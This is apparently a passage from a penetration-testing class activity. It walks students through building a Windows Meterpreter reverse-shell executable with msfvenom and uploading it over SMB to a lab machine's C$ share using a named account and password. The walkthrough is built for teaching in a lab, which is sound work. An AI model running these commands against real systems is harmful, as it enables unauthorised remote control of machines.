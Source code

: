 - [Class Do Activity File: Custom Payload with `msfvenom`](Activities/01_MSFVenom/README.md)

1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](Images/msfvenom.PNG)

2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type: `smbclient //172.22.117.20/C$ -U megacorpone/tstark`

    - This connects to the `C` drive on the remote machine as the user tstark. 

3. You will then be asked for a password. Input tstark's password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    ![A screenshot depicts the results of the command.](Images/smbclient.PNG)

5. Upload your payload via the following command:

    - `put shell.exe`
